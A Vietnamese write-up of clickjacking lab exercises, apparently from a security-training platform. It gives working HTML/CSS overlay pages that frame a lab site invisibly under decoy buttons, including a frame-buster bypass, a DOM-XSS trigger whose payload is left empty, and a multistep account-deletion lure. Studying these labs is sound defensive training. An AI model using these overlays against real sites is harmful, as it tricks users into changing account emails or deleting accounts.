



# Clickjacking
## Khái niệm
Clickjacking là kĩ thuật tấn công nhắm vào giao diện người dùng bằng cách khiến user vô tình nhấp vào một đối tượng trên trang web khác với những gì đang thể hiện ra trên màn hình. 

## Lab
### Lab: Basic clickjacking with CSRF token protection
Lab này yêu cầu ta cần tạo một element đè lên chức năng gốc để lừa nạn nhân bấm vào đó. Để làm được điều đó, ta cần sử dụng CSS để chỉnh vị trí của nút bấm tới vị trí chức năng cần nạn nhân thực hiện.

```HTML
<style>
    iframe {
        position: relative;
        width:800;
        height:600;
        opacity: 0;
        z-index: 2;
    }
    div{
        position: absolute;
        top:507;
        left:78;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://<Lab-ID>/my-account"></iframe>
```

### Lab: Clickjacking with form input data prefilled from a URL parameter
Tương tự với lab trên, ta sẽ dụ nạn nhân đổi tài khoản sang tài khoản mà ta mong muốn.
```HTML
<style>
    iframe {
        position: relative;
        width:800;
        height:600;
        opacity: 0;
        z-index: 2;
    }
    div{
        position: absolute;
        top:460;
        left:78;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://<Lab-ID>/my-account?email=attacker@<Server-ID"></iframe>
```

Kết quả đầu ra sẽ trông như thế này (Vì mục đích kiểm tra nên opacity trong ảnh lớn hơn 0.1):



### Lab: Clickjacking with a frame buster script
Cũng tương tự với 2 lab trên, nhưng khi này trang web chặn khả năng frame trang web. Khi này, ta có thể bypass bằng cách thêm attribute `sandbox="allow-forms"`, cho phép ta có thể tương tác với trang web ngay cả khi đã bị chặn tạo frame. Còn lại, script vẫn tương tự 2 bài lab trên.
```JS
<style>
    iframe {
        position: relative;
        width:800;
        height:600;
        opacity: 0.5;
        z-index: 2;
    }
    div{
        position: absolute;
        top:460;
        left:78;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://<Lab-ID>/my-account?email=attacker@<Server-ID>" sandbox="allow-forms"></iframe>
```

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
Lỗ hỏng XSS của lab này nằm ở chức năng `Submit feedback`:
```JS
document.getElementById("feedbackForm").addEventListener("submit", function(e) {
    submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
    e.preventDefault();
});

function submitFeedback(method, path, encoding, personal, data) {
    var XHR = new XMLHttpRequest();
    XHR.open(method, path);
    if (personal) {
        XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
    } else {
        XHR.addEventListener("load", displayFeedbackMessage());
    }
    if (encoding === "multipart/form-data") {
        XHR.send(data)
    } else {
        var params = new URLSearchParams(data);
        XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        XHR.send(params.toString())
    }
}

function displayFeedbackMessage(name) {
    return function() {
        var feedbackResult = document.getElementById("feedbackResult");
        if (this.status === 200) {
            feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
            feedbackForm.reset();
        } else {
            feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
        }
    }
}
```
Cụ thể, `XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));` load trực tiếp data có trong param `name` bằng hàm `addEventListener` mà không qua bất cứ kiểm tra nào, từ đó ta có thể chèn XSS vào param này. Còn lại, payload sẽ vẫn tương tự như các lab trước.

```HTML
<style>
    iframe {
        position: relative;
        width:800;
        height:920;
        opacity: 0.5;
        z-index: 2;
    }
    div{
        position: absolute;
        top:830;
        left:78;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://<Lab-ID>/feedback?name=&email=attacker@<Server-ID>&subject=f&message=fdafsd"></iframe>
```



### Lab: Multistep clickjacking
Lab này thêm 1 bước xác thực xoá tài khoản, nên ta chỉ cần thêm 1 decoy nữa ở phần chấp nhận xoá là được:
```HTML
<style>
    iframe {
        position: relative;
        width:800;
        height:600;
        opacity: 0.5;
        z-index: 2;
    }
 .firstClick, .secondClick{
        position: absolute;
        top:500;
        left:70;
        z-index: 1;
    }
  .secondClick{
        top:300;
        left:200;
}
</style>
<div class="firstClick">Click me first</div>
<div class= "secondClick">Click me next</div>
<iframe src="https://<Lab-ID>/my-account"></iframe>
```

